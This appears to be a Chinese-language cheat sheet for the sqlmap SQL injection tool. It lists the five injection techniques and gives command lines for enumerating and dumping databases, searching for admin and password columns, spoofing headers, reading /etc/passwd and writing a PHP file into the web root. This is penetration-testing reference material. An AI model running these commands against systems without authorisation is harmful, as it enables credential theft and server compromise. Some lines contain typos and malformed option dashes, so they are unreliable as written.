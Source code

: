 # sqlmap

## 简介

### sqlmap支持五种不同的注入模式：

* 1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入
* 2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断
* 3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中
* 4、联合查询注入，可以使用union的情况下的注入
* 5、堆查询注入，可以同时执行多条语句的执行时的注入

## 常见用法

```
# 爆后端数据库, eg. mysql
sqlmap.py -u url --dbms                                       
sqlmap.py -u url  --dbms "后端数据库名" --dbs
# 爆数据库表
sqlmap.py -u url  --dbms "后端数据库名" --tables  
# 显示当前连接数据库名               
sqlmap.py -u url  --dbms "后端数据库名" --current-db   
# 列出数据库表中的表名          
sqlmap.py -u url --dbms "后端数据库名" --tables  -D "数据库名"   
# 列出数据库名中的表名内容                     
sqlmap.py -u url --dbms "后端数据库名" --columns  -T "表名" -D "数据库名"   
# 获取字段里面的内容           
sqlmap.py -u url --dbms "后端数据库名" --dump  -C "字段,字段"  -T "表名" -D "数据库名" 
# dmup
sqlmap.py -u url --dbms "后端数据库名"--dump
# 搜索特定字段 
sqlmap.py -u url --dbms "后端数据库名" -D "数据库名" -search -C admin,password

# referer 注入
sqlmap -u url --referer=1 --level 3 -p referer 

# 改header
sqlmap --header="X-Forwarded-For: 127.0.0.1"
# 改 host
sqlmap --host="localhost" 

# file-read读取web文件
sqlmap -u url –file-read “/etc/passwd” -v 2

# file-write写入文件到web
sqlmap -u url –file-write /localhost/mm.php –file-dest /var/www/html/xx.php -v 2  
```

### 指定注入技术: `--technique=TECH`
